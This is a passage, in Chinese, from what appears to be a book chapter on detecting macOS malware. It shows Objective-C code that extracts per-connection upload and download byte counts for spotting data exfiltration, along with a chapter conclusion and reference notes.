尽管在这个简化的输出中未显示，网络统计字典还包含 kNStatSrcKeyTxBytes 和 kNStatSrcKeyRxBytes 键，分别表示上传和下载的字节数。Listing 4-19 展示了如何以编程方式提取这些流量统计数据作为无符号长整型数值。

```
NStatSourceSetDescriptionBlock(source, ^(NSMutableDictionary* description) {
    unsigned long bytesUp =
    [description[(__bridge NSString *)kNStatSrcKeyTxBytes] unsignedLongValue];

    unsigned long bytesDown =
    [description[(__bridge NSString *)kNStatSrcKeyRxBytes] unsignedLongValue];
    ...
}); 
```

Listing 4-19：提取流量统计信息

这些数据可以帮助我们洞察流量趋势。例如，一个上传字节数非常大的连接，且与一个未知进程相关，可能会揭示恶意软件正在向远程服务器泄露大量数据。

### 结论

大多数恶意软件与网络进行交互，这为我们提供了构建强大启发式方法的机会。在本章中，我介绍了两种程序化枚举网络状态并将该状态与相应进程关联的方法。能够识别负责监听套接字或已建立连接的进程是准确检测恶意软件的关键，是基于主机的方法相对于以网络为中心的方法的主要优势之一。

到目前为止，我们已经根据从进程（在第一章）、二进制文件（在第二章）、代码签名（在第三章）以及网络（在本章）中获取的信息，构建了启发式方法。但操作系统也提供了其他检测来源。在下一章中，你将深入了解持久化技术的检测。

### 备注

1.    1.  Patrick Wardle，《2022 年 Mac 恶意软件》，Objective-See，2023 年 1 月 1 日，[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/blog<wbr>/blog<wbr>_0x71<wbr>.html#<wbr>-insekt*](https://objective-see.org/blog/blog_0x71.html#-insekt)。

1.    2.  见[*https://<wbr>objective<wbr>-see<wbr>.org<wbr>/products<wbr>/netiquette<wbr>.html*](https://objective-see.org/products/netiquette.html)。

1.    3.  Patrick Wardle，《让 oRAT 启动》，在西班牙 Objective by the Sea v5 大会上发表的论文，2022 年 10 月 7 日，[*https://<wbr>objectivebythesea<wbr>.org<wbr>/v5<wbr>/talks<wbr>/OBTS<wbr>_v5<wbr>_pWardle<wbr>.pdf*](https://objectivebythesea.org/v5/talks/OBTS_v5_pWardle.pdf)。

1.    4. 丹尼尔·伦吉和贾罗米尔·霍雷西，“新 APT 组织 Earth Berberoka 通过旧和新恶意软件攻击赌博网站”，趋势科技，2022 年 4 月 27 日，[*https://<wbr>www<wbr>.trendmicro<wbr>.com<wbr>/en<wbr>_ph<wbr>/research<wbr>/22<wbr>/d<wbr>/new<wbr>-apt<wbr>-group<wbr>-earth<wbr>-berberoka<wbr>-targets<wbr>-gambling<wbr>-websites<wbr>-with<wbr>-old<wbr>.html*](https://www.trendmicro.com/en_ph/research/22/d/new-apt-group-earth-berberoka-targets-gambling-websites-with-old.html)。

1.    5. 参见 [*https://<wbr>github<wbr>.com<wbr>/palominolabs<wbr>/get<wbr>_process<wbr>_handles*](https://github.com/palominolabs/get_process_handles)。

1.    6. 参见 [*http://<wbr>newosxbook<wbr>.com<wbr>/src<wbr>.jl<wbr>?tree<wbr>=listings&file<wbr>=netbottom<wbr>.c*](http://newosxbook.com/src.jl?tree=listings&file=netbottom.c)。
